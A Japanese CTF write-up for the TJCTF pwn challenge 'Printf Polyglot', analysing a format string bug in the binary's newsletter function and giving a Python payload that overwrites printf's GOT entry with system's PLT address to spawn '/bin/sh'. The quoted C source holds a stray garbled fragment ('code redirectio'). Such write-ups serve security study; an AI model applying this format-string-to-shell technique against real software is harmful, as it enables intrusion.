

// date: 2019-04-12

# はじめに
2019年4月の4日〜8日、NekoChanNano!というCTFチームでTJCTFに参加しました。解けた問題の中、Pwn系の問題「Printf Polyglot」があり、今回この問題の解き方を解説していきたいと思います。

# 概要
こちらは問題記載:
```
Printf Polyglot - 120 points

Written by nthistle

Security Consultants Inc. just developed a new portal! We managed to get a hold of the source code, and it doesn't look like their developers know what they're doing.

nc p1.tjctf.org 8003
```
ご丁寧にELFバイナリとソースコードが与えられます。ではとりあえずバイナリを実行してみましょう。
```
$ ./printf_polyglot
Welcome to the brand new Security Consultants Inc. portal!
What would you like to do?
1.) View the Team!
2.) Check the date.
3.) Sign up for our newsletter!
4.) Report a bug.
x.) Exit.
```
またメニュー系なインターフェースですね。自分は普段、プログラムの動作を把握するには、直接にいじるよりコードを読むのが楽なので、そのソースコードを読んでから行こうと思います！

# 解析
コードが長かったため全部を貼りはしないけど、main関数を見れば各メニューオプションそれぞれの関数があることがわかります。
```c
int main() {
   gid_t gid = getegid();
   setresgid(gid, gid, gid);
   setbuf(stdout, NULL);

   printf("Welcome to the brand new Security Consultants Inc. portal!\n");
   char action = 0;
   char line[128];
   while (action != 'x') {
      printf("What would you like to do?\n");
      printf("1.) View the Team!\n");
      printf("2.) Check the date.\n");
      printf("3.) Sign up for our newsletter!\n");
      printf("4.) Report a bug.\n");
      printf("x.) Exit.\n");
      fgets(line, sizeof line, stdin);
      action = line[0];
      if (action == '1') {
         view_team();
      } else if (action == '2') {
         check_date();
      } else if (action == '3') {
         newsletter();
      } else if (action == '4') {
         report_bug();
      } else if (action != 'x') {
         printf("Sorry, I didn't recognize that.\n");
      }code redirectio
      printf("\n");
   }
}
```
他の関数を見たら、気になったのがcheck_dateとnewsletterだけでした。
```c
bool date_enabled = false;
[...]
// apparently calling system() isn't safe? I disabled it so we
// should be fine now.
void check_date() {
   printf("Here's the current date:\n");
   if (date_enabled) {
      system("/bin/date");
   } else {
      printf("Sorry, date has been temporarily disabled by admin!\n");
   }
}
```
こうやって変数を使って、systemを呼び出さないようにしたようですが、system関数がコードに入ってるだけでPLTに含まれますので、もしある脆弱性を使ってRIPレジスタを奪えられれば、systemの位置が既にわかります(PIEが有効な場合を除く)。攻撃者にとってはそれがすごく助かります。
```c
void newsletter() {
   printf("Thanks for signing up for our newsletter!\n");
   printf("Please enter your email address below:\n");

   char email[256];
   fgets(email, sizeof email, stdin);
   printf("I have your email as:\n");
   printf(email);
   printf("Is this correct? [Y/n] ");
   char confirm[128];
   fgets(confirm, sizeof confirm, stdin);
   if (confirm[0] == 'Y' || confirm[0] == 'y' || confirm[0] == '\n') {
      printf("Great! I have your information down as:\n");
      printf("Name: Evan Shi\n");
      printf("Email: ");
      printf(email);
   } else {
      printf("Oops! Please enter it again for us.\n");
   }

   int segfault = *(int*)0;
   // TODO: finish this method, for now just segfault,
   // we don't want anybody to abuse this
}
```
あれれ？気のせい？？
```c
printf(email);
```
こう、ユーザーの入力したデータをそのままformat stringを使わずにprintfに渡すと、いわゆるFormat String Bug（FSB）という脆弱性が生まれます。FSBを使えば、例えば任意読み込みや任意書き込みができます。

# 作戦
FSBを使って、ある関数のGOTポインターを上書きし、systemのPLTアドレスに変えましょう。
fgetsの後に呼び出されるので、そして入力したemail変数がそのままわたされますので、printfが最適な候補だと思います。

`printf(email);`がこう、二回呼び出されますが、もし一回目はFSBを行えば、二回目はもうprintfではなく、`system(email)`になりますのでご注意ください。そのため、email変数が同時にformat stringでもあり、シェルコマンドでもある必要があります。

# エクスプロイト
```python
#!/usr/bin/python2
# -*- coding: utf-8 -*-
import struct

# 作戦：FSBを使ってprintfのGOT要素(0x602048)に、systemのPLTアドレス(0x4006e0)を書き込む。
# 次にprintfが呼び出される際、system関数が代わりに実行されてしまう。

def payload():
    padding = "a" * 100
    command = "/bin/sh #" # 直後のスタックデータが含まれちゃうから「#」でコメント化
    # 説明：メニュー選択がスタック変数のactionに保存される。
    # そこにアドレスを入れたら、FSBを起こせるときに利用できます。
    selection = "3       "
    selection += struct.pack("<Q", 0x00602048) # スタック第63引数。
    selection += struct.pack("<Q", 0x0060204a) # スタック第64引数。
    # 説明：出力済文字数が0x40になるまでスペースを%cで出力して、
    # 第64引数(0x60204a)に0x40を書き込む。そのあと、また%cでバイトを出力、
    # 第63引数(0x602048)に0x06e0を書き込む。そうしたらprintfのGOT要素が0x4006e0になり、
    # ジャンプすればsystemのPLTアドレスに移動しちゃいます。
    format_string = command + "%55c%64$n%1696c%63$hn" + padding
    format_string = format_string[:100]
    return selection + "\n" + format_string + "\ny\n"

print(payload())
```

さあ、作戦開始！


以上Printf Polyglotの解答方法でした。
